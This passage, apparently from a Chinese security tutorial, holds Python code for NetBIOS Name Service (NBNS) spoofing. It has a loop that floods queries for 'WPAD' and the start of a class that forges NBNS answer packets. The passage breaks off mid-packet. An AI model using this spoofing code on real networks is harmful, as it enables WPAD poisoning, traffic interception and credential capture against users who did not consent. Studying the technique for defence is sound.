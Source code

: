 ```
        "\x00\x01") # Class

        self.data = self.QueryData.replace('NAME', struct.pack("32s", self.encode_name(self.name)))

    # From http://code.google.com/p/dpkt/
    def encode_name(self,name):
        """Return the NetBIOS first-level encoded name."""
        l = []
        for c in struct.pack('16s', name):
            c = ord(c)
            l.append(chr((c >> 4) + 0x41))
            l.append(chr((c & 0xf) + 0x41))
        return ''.join(l)

    def Query(self):
        while 1:
            print "NBNS Querying... -> %s" % self.name
            self.nqs.sendto(self.data, (self.HOST, self.PORT))
        self.nqs.close()

if __name__ == "__main__":
    nbns = NBNS_Query("WPAD")
    nbns.Query()

```

通过 Wireshark 抓取 NetBIOS**名称查询**的应答数据包，同样可以快速实现名称查询的应答功能。代码如下：

```
#/usr/bin/env python
# -*- coding:utf-8 -*-
__doc__ = """

    NBNS Answer ,
                    by Her0in

"""

import socket, struct,binascii

class NBNS_Answer:
    def __init__(self, addr):

        self.IPADDR  = addr
        self.nas = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        self.init_socket()
        self.populate()
    def populate(self):

        self.AnswerData = (
        "TID"              # Transaction ID
        "\x85\x00"         # Flags Query
        "\x00\x00"         # Question
        "\x00\x01"         # Answer RRS
        "\x00\x00"         # Authority RRS
        "\x00\x00"         # Additional RRS
        "\x20"             # length of Name:32
        "NAME"             # Name   
        "\x00"             # NameNull
        "\x00\x20"         # Query Type:NB
        "\x00\x01"         # Class
        "\x00\x00\x00\xa5" # TTL
        "\x00\x06"         #
        "\x00\x00"         # Null
```